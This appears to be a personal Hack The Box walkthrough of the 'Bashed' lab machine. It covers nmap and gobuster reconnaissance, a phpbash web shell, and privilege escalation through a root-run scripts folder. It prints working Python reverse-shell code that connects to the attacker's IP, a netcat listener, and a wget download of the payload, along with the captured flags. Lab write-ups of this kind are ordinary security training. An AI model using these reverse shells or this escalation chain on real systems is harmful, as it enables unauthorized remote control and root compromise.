










**Start 14:44 05/08**

---

```
10.10.10.68
```

## Nmap recon

==Quick scan==
The quick scan shows only port `80`:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 16:39 IST
Nmap scan report for 10.10.10.68
Host is up (0.019s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
```

==Thorough scan==
The more thorough scan yields the same results, only port 80 seems to be open:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 16:41 IST
Nmap scan report for 10.10.10.68
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.64 seconds
```


## 80/TCP - HTTP

After heading to the website we are greeted with this page:



It appears that it is a site promoting a `phpbash script` developed and tested on the same exact machine we are on. 



It shows a screenshot with the endpoint being `/uploads/phpbash.php` so let's try to download the script and try to upload it on the website.

Heading towards [this link](https://github.com/Arrexel/phpbash) we find the instructions as well as the script itself.



It's pretty self explanatory to be honest.

==Gobuster==
Next up we'll do a directory enumeration for good measure to find out what endpoints the site has. Let it run for a while, and we find the `/dev` directory which seems interesting to us:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Heading into the `/dev` directory we find the already working script, which means we don't have to upload it, but just need to click on the `phpbash.php` link and we get a working shell:





In here it is pretty straightforward stuff again.

## Flags

==user.txt==
This one is easy as always, head into the `/home` directory where you will find the `arrexel user`, just head into his directory and the `user.txt` flag is there:



```
a2c20510bc6bc08e4446522959067bd3
```

==root.txt==
After this we want to escalate privileges in order to get the `root flag`.
We start of by using `sudo -l` and find out:



We notice that we can run any and all commands as the user `scriptmanager`. All we need to do now is use [the following technique]():

```bash
sudo -u scriptmanager bash -i
# This will spawn a bash shell and give full read/write access to /scripts
```

But since this does not work in the `phpbash shell` in the web browser we'll have to execute it through our own local machine:



Thus we will have to set up a listener on our local machine:

```bash
nc -lvnp 1234
```

And run this in the web browser:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Run it as a one-liner since you cannot yet modify files
```

And after we run everything successfully we can execute the previously mentioned command to escalate privileges:



We now have a folder we can access which we previously could not, namely `/scripts`. In here we find two files, a python file and a `.txt` file:

```bash
scriptmanager@bashed:/home/arrexel$ ls -ld /scripts
ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun  2  2022 /scripts
scriptmanager@bashed:/home/arrexel$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Aug  5 06:28 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

The interesting part here is that the `test.txt file is owned by root`. I tried editing the file but resulted to writing my own `reverse shell exploit` instead as per [Pentest Monkey's cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) (the Python one).

I just modified it to my own `IP_ADDR`, and made a new file called `test.test.py`:

```bash
import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.10.14.53",1235))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I then started a `python -m http.server 80` on the `kali machine` and used `wget` to copy the exploit to the server:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [05/Aug/2024 14:51:55] "GET /test.test.py HTTP/1.1" 200 -
```

```bash
scriptmanager@bashed:/scripts$ wget 10.10.14.53/test.test.py
wget 10.10.14.53/test.test.py
--2024-08-05 06:51:56--  http://10.10.14.53/test.test.py
Connecting to 10.10.14.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 224 [text/x-python]
Saving to: 'test.test.py'

     0K                                                       100% 56.1M=0s

2024-08-05 06:51:56 (56.1 MB/s) - 'test.test.py' saved [224/224]
```

And just like the `test.py` file our exploit got executed after waiting for less than a minute and we got a `root shell`:




```bash
cd /root && cat root.txt
290bce0a28afd1f841d12da429fd2749
```


---
**Finished 15:58 05/08**


[^Links]: [[Hack The Box]] [[OSCP Prep]] 
